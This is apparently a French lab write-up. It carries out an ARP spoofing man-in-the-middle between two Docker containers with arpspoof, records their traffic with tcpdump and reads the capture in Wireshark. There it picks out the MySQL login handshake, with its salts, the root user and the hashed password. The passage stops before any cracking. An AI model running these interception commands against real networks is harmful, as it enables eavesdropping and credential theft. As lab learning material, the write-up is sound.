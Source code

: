 


on va faire un man in the midle grace a un arpspoofing

```bash
root@fac50de5d760:~# arpspoof -t 172.18.0.2 172.18.0.4
2:42:ac:12:0:3 2:42:ac:12:0:2 0806 42: arp reply 172.18.0.4 is-at 2:42:ac:12:0:3
2:42:ac:12:0:3 2:42:ac:12:0:2 0806 42: arp reply 172.18.0.4 is-at 2:42:ac:12:0:3
2:42:ac:12:0:3 2:42:ac:12:0:2 0806 42: arp reply 172.18.0.4 is-at 2:42:ac:12:0:3
2:42:ac:12:0:3 2:42:ac:12:0:2 0806 42: arp reply 172.18.0.4 is-at 2:42:ac:12:0:3
2:42:ac:12:0:3 2:42:ac:12:0:2 0806 42: arp reply 172.18.0.4 is-at 2:42:ac:12:0:3
2:42:ac:12:0:3 2:42:ac:12:0:2 0806 42: arp reply 172.18.0.4 is-at 2:42:ac:12:0:3
2:42:ac:12:0:3 2:42:ac:12:0:2 0806 42: arp reply 172.18.0.4 is-at 2:42:ac:12:0:3

```
et sur un autre shell 

```bash
root@fac50de5d760:~# arpspoof -t 172.18.0.4 172.18.0.2
2:42:ac:12:0:3 2:42:ac:12:0:4 0806 42: arp reply 172.18.0.2 is-at 2:42:ac:12:0:3
2:42:ac:12:0:3 2:42:ac:12:0:4 0806 42: arp reply 172.18.0.2 is-at 2:42:ac:12:0:3
2:42:ac:12:0:3 2:42:ac:12:0:4 0806 42: arp reply 172.18.0.2 is-at 2:42:ac:12:0:3
2:42:ac:12:0:3 2:42:ac:12:0:4 0806 42: arp reply 172.18.0.2 is-at 2:42:ac:12:0:3
2:42:ac:12:0:3 2:42:ac:12:0:4 0806 42: arp reply 172.18.0.2 is-at 2:42:ac:12:0:3
2:42:ac:12:0:3 2:42:ac:12:0:4 0806 42: arp reply 172.18.0.2 is-at 2:42:ac:12:0:3
2:42:ac:12:0:3 2:42:ac:12:0:4 0806 42: arp reply 172.18.0.2 is-at 2:42:ac:12:0:3

```

je suis donc maintenant en man in the midle je peux voir les communications entre les deux pc 

grace a dcpdump je lis ce trafique et je l'enregistre dans un fichier 

```bash
tcpdump -i eth0 not port 22 -w yoyo.pcap
```

aprés quelque minute j'arrétes d'enregistrer

je peux pas lire le fichier sur la vm je dois donc le transférer vers mon pc pour pouvoir l'ouvrir avec wireshark et lire le trafique 

Pour faire ça j'utilise filezilla 

[voci la capture dcpdump](./yoyo.pcap)


quand je lis la capture je peux voire les discutions entre la bdd et le client notament une phase de conexion ce qui nous intéresses pour essayer de trouver le mot de passe de cette bdd 

je peux y voir 2 trames utile:

une trame  greeting de la bdd qui acceuil le client donc bdd vers -> client 
je peux voir dans les datas de la capture deux salt et le nom du pluggin d'autentification mysql_native_password

l'autre trame est une demande de conexion du client vers la bdd 
je peux y voir notament le user qui est root ainsi que le mot de basse mais celuici est aché 
